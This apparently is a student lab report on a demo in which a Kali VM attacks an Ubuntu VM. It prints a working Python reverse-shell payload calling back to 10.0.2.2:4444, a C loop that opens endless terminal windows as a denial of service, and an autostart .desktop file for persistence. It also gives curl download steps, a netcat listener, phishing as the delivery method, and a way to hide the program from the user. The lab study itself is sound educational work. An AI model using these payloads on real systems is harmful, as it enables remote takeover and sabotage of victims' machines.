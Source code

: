 ## Huseinovic Elma
## Cybersecurity report 

# Reverse shell and Denial of service with persistence on an Ubuntu virtual machine

## Introduction

The goal of the demo is to create a persistent Denial of Service on an Ubuntu virtual machine, which will therefore be the attacked machine, while a Kali virtual machine was used for the attacker. To do this, a reverse shell is first created to allow the attacking machine to act freely on the Ubuntu machine.

## Kali Preparation
First of all, all the necessary files were created on Kali.
First, the `reverseshell.sh` file, where the is the [payload](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)[1] in python 
```py
export RHOST="10.0.2.2";
export RPORT=4444;
python3 -c 'import socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("/bin/sh")&'
```
which allows to create a reverse shell in the background when executed on the attacked machine.
Then, a very simple C program, `dos.c`, was created, containing an infinite while loop that continues to open terminal windows:
```c
#include <stdlib.h>
int main(){
    while(1){
        system("gnome-terminal");
    }
    return 0;
}
```
The terminal was chosen to be opened for simplicity, it is possible to do it with other applications and also open several of them, creating a real crash of the machine.
Finally, the `dos.desktop` file was created:
```bash
[Desktop Entry]                  
Type=Application                
Exec=/home/ubuntu/dos            
Hidden=false                     
NoDisplay=false
X-GNOME-Autostart-enabled=true
Name[en_US]=dos
Name=dos
Comment[eu_US]=
Comment=
```
It will be used to insert the program that executes the Denial of Service among the applications that open at the start of the machine.
The Hidden and NoDisplay flags, to highlight the Denial of Service, have been set to false, if they are set to true, the program runs without the user noticing anything, so the machine is slowed down without being able to understand the reason.
Once the files were created, a [web file server][2] was also created on port 80, using the command.
`python -m http.server 80`

![Web File Server](images/webfileserverdemo.png)

At this point, the only thing left to do is to listen on the default port, to do this it was used [netcat][3], with the command: `nc -lvp 4444 -n`

# Reverse shell 

To create the reverse shell, it is necessary for the user on the attacked machine to be convinced to download and execute the `reverseshell.sh` file, this could be done by creating a phishing email and convincing him, for example, that it is a security patch. In the demo, the command `curl -O "http://10.0.2.2/demo/reverseshell.sh"` is used, which downloads the file from the web file server created on Kali, at this point the command `sudo chmod +x reverseshell.sh` is executed which adds the execution permission to the file with administrator privileges, finally the file is executed with `./reverseshell.sh`.
At this point, being the reverse shell executed in the background, the user on Ubuntu can continue to use the terminal normally, without noticing anything, but in reality he is connected on port 4444 to the Kali machine through a reverse shell.

![Reverse Shell](images/kali-ubuntu-rs.png)

# DoS and persistence

Using the reverse shell, now, it is easy to download the `dos.c` program and the `dos.desktop` file from the Kali web file server always using the `curl` command:
`curl -O "http://10.0.2.2/demo/dos.c"`
`curl -O "http://10.0.2.2/demo/dos.desktop"`
now, the dos.c program is compiled using the `ggc -o dos dos.c` command, thus creating the executable. Before running it, however, persistence must be created: the `dos.desktop` file is moved to `.config/autostart`, to do this the `mv` command is used, which must, however, be executed with administrator privileges, therefore using `sudo`, this implies that the attacker must know the account password. Once `dos.desktop` is moved, the `dos` program is visible in Startup Application Preferences, which shows the programs that are run at the machine startup.

![Startup Application Preferences](images/application-startup.png)

So, every time the machine is accessed, countless terminal windows will be opened in a loop, making it unusable.

![DoS](images/dos.png)

Furthermore, another interesting feature is that, trying to remove `dos` using the Startup Application Preferences application and restarting the machine, the program is still executed, this is because the `dos.desktop` file present in `.config/autostart` is not removed, and continues to put the program among the applications to be executed at startup.
To stop this attack you might think of deleting the `dos` executable, but in case it is placed in a folder not easily reachable, this could not be done, especially if you do not know what is happening and if the machine starts to crash.
Alternatively, you could think of deleting the `dos.desktop` file, but given that it is located in a directory that is hidden by default and given that the terminal is unusable, this could be difficult.

## References
1. https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/
2. https://medium.com/@jbtechmaven/ethical-hacking-reverse-shell-attack-using-metasploit-57e9cd400c88
3. https://www.geeksforgeeks.org/how-to-create-reverse-shells-with-netcat-in-kali-linux/


